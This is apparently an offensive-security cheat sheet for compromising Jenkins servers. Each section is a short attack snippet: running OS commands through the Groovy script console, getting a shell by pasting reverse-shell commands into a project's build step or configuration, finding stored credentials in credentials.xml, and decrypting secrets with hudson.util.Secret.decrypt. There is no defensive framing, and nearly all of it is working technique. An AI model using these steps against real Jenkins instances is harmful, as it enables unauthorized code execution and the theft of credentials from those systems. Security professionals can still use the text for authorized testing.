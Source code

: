### Code execution via groovy script 
```
<rhost>/script

def process = "<command>".execute()
println "Found text ${process.text}"
```

### Code execution via now project
```
create new freestyle project > inside build section > set execute shell > paste reverse shell commando > build now
```

### Code execution via configuration of project
```
open project > configure > paste command > save and built
```

### Password hashes for jenkins
```
<jenkinsHome>/credentials.xml
```

### Decrypt using groovy script console
```
println hudson.util.Secret.decrypt("{<hash>}")
```

